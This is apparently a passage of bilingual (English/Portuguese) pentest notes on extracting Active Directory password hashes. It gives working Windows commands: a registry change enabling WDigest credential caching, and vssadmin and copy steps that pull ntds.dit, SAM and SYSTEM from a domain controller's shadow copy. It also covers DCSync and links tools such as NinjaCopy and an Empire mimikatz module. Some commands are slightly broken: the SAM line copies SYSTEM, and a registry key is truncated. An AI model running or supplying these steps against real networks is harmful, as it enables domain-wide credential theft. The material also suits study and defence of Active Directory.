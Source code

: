 ```shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDige /v UseLogonCredential /t REG_DWORD /d 1 f```
the hashes from the DC was to run commands on the domain controller and use
Shadow Volume or Raw copy techniques to pull off the Ntds.dit file.
Since we do have access to the file system and can run commands on the domain
controller, as an attacker, we want to grab all the Domain hashes stored in the
Ntds.dit file.

Depois de obter acesso administrativo ao domain, a maneira antiga de extrair todos os hashes do DC era executar comandos no DC e usar técnicas de Shadow Volume ou Raw Copy para extrair o arquivo Ntds.dit. Isso pode ser feito de algumas formas:

#### 1 - 

```vssadmin create shadow /for=C:```

#Copy SAM
```copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM C:\Extracted\SAM```

#Copy SYSTEM
```copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM C:\Extracted\SYSTEM```

#Copy ntds.dit
```copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\ntds\ntds.dit C:\Extracted\ntds.dit```

```reg SAVE HKLM\SYSTEM c:\SYS```
#Delete created vol
```vssadmin delete shadows /for= [/oldest | all | shadow=]```

#### 2 - 

NinjaCopy tool, uma vez como Domain Controller, pode ser usado para pegar o arquivo Ntds.dit:

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1

## DCSync

More recently, DCSync, was introduced and changed the game on dumping hashes from Domain Controllers.
The concept of DCSync is that it impersonates a Domain Controller to request all the hashes of the users in that Domain. This means, as long as you have permissions, you do not need to run any commands on the Domain Controller and you do not have to drop any files on the DC.
For DCSync to work, it is important to have the proper permissions to pull hashes from a Domain Controller. Generally limited to the Domain Admins, Enterprise Admins, Domain Controllers groups, and anyone with the Replicating Changes permissions set to Allow (i.e., Replicating Changes All/Replicating Directory Changes), DCSync will allow your user to perform this attack.

Mais recentemente, o DCSync foi introduzido e mudou o jogo no despejo de hashes de Domain Controller. O conceito do DCSync é que ele se passa por um Domain Controller para solicitar todos os hashes dos usuários daquele domínio. Isso significa que, desde que você tenha permissões, não será necessário executar nenhum comando no DC e não será necessário descartar nenhum arquivo no DC. Para que o DCSync funcione, é importante ter as permissões adequadas para extrair hashes de um DC. Geralmente limitado aos ```Domain Admins```, ```Enterprise Admins```, ```Domain Controllers groups``` e qualquer pessoa com permissões de ```Replicating Changes``` definidas como ```Allow``` (ou seja, ```Replicating Changes All```/```Replicating Directory Changes```), o DCSync permitirá que seu usuário execute este ataque.

Existem algumas formas de fazer, aqui tem exemplos:

- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync

- Modulo Empire: powershell/credentials/mimikatz/dcsync_hashdump

- https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync

```
